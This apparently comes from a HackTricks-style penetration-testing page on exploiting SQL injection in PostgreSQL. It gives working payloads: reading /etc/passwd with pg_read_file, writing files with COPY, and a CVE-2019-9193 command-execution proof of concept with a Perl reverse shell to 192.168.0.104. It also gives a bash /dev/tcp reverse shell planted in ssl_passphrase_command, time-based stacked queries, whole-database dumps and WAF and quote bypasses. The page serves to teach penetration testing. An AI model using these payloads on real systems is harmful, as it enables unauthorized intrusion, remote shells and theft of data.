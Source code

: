 # PostgreSQL injection

**This page aims to explain different tricks that could help you to exploit a SQLinjection found in a postgresql database and to compliment the tricks you can find on** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)\*\*\*\*

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**`dblink`** is a **PostgreSQL module** that offers several interesting options from the attacker point of view. It can be used to **connect to other PostgreSQL instances** of perform **TCP connections**.  
**These functionalities** along with the **`COPY FROM`** functionality can be used to **escalate privileges**, perform **port scanning** or grab **NTLM challenge responses**.  
[**You can read here how to perform these attacked.**](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)\*\*\*\*

### **Exfiltration example using dblink and large objects**

You can [**read this example**](dblink-lo_import-data-exfiltration.md) **\*\*to see a CTF example of** how to load data inside large objects and then exfiltrate the content of large objects inside the username\*\* of the function `dblink_connect`.

## PL/pgSQL password bruteforce

PL/pgSQL, as a **fully featured programming language**, allows much more procedural control than SQL, including the **ability to use loops and other control structures**. SQL statements and triggers can call functions created in the PL/pgSQL language.  
**You can abuse this language in order to ask PostgreSQL to brute-force the users credentials.** [**Read this to learn how.**](pl-pgsql-password-bruteforce.md)\*\*\*\*

## File-system actions

### Read directories and files

From this [commit ](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a)members of the `DEFAULT_ROLE_READ_SERVER_FILES` group and super users can use these methods on any path \(check out `convert_and_check_filename` in `genfile.c`\).:

```sql
select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd' , 0 , 1000000);
```

### Simple File Writing

```bash
copy (select convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) to '/just/a/path.exec';
```

Remember that COPY cannot handle newline chars, therefore even if you are using a base64 payload y**ou need to send a one-liner**.  
A very important limitation of this technique is that **`copy` cannot be used to write binary files as it modify some binary values.**

### **Binary files upload**

However, there are **other techniques to upload big binary files**.  
[**Read this page to learn how to do it.**](big-binary-files-upload-postgresql.md)\*\*\*\*

## RCE

### CVE-2019–9193 **RCE from version 9.3 to 11.2**

Since[ version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html), new functionality for '[COPY TO/FROM PROGRAM](https://paquier.xyz/postgresql-2/postgres-9-3-feature-highlight-copy-tofrom-program/)' was implemented. This allows the database superuser, and any user in the ‘pg\_execute\_server\_program’ group to run arbitrary operating system commands.

```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

Or use the `multi/postgres/postgres_copy_from_program_cmd_exec` module from **metasploit**.  
More information about this vulnerability [**here**](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5).

### RCE with PostgreSQL extensions

Once you have **learned** from the previous post **how to upload binary files** you could try obtain **RCE uploading a postgresql extension and loading it**.  
[**Lear how to abuse this functionality reading this post.**](rce-with-postgresql-extensions.md)\*\*\*\*

### PostgreSQL configuration file RCE

The **configuration file** of postgresql is **writable** by the **postgres user** which is the one running the database, so as **superuser** you can write files in the filesystem, and therefore you can **overwrite this file.**

![](../../../.gitbook/assets/image%20%28232%29.png)

The configuration file have some interesting attributes that can lead to RCE:

* `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Path to the private key of the database
* `ssl_passphrase_command = ''` If the private file is protected by password \(encrypted\) postgresql will **execute the command indicated in this attribute**.
* `ssl_passphrase_command_supports_reload = off` **If** this attribute is **on** the **command** executed if the key is protected by password **will be executed** when `pg_reload_conf()` is **executed**.

Then, an attacker will need to:

1. **Dump private key** from the server
2. **Encrypt** downloaded private key:
   1. `rsa -aes256 -in downloaded-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
3. **Overwrite** 
4. **Dump** the current postgresql **configuration**
5. **Overwrite** the **configuration** with the mentioned attributes configuration:
   1. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
   2. `ssl_passphrase_command_supports_reload = on`
6. Execute `pg_reload_conf()`

While testing this I noticed that this will only work if the **private key file has privileges 640**, it's **owned by root** and by the **group ssl-cert or postgres** \(so the postgres user can read it\), and is placed in _/var/lib/postgresql/12/main_.

**More** [**information about this technique here**](https://pulsesecurity.co.nz/articles/postgres-sqli)**.**

## WAF bypass

### PostgreSQL String functions

Manipulating strings could help you to **bypass WAFs or other restrictions**.  
[**In this page** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**you can find some useful Strings functions.**

### Stacked Queries

Remember that postgresql support stacked queries, but several application will throw an error if 2 responses are returned when expecting just 1. But, you can still abuse the stacked queries via Time injection:

```text
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```

### XML tricks

#### query\_to\_xml

This function will return all the data in XML format in just one file. It's ideal if you want to dump a lot of data in just 1 row:

```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```

#### database\_to\_xml

This function will dump the whole database in XML format in just 1 row \(be careful if the database is very big as you may DoS it or even your own client\):

```sql
SELECT database_to_xml(true,true,'');
```

### Forbidden quotes

If cannot use quotes for your payload you could bypass this with `CHR` for basic clauses \(_character concatenation only works for basic queries such as SELECT, INSERT, DELETE, etc. It does not work for all SQL statements_\):

```text
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```

Or with `$`. This queries return the same results:

```text
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```

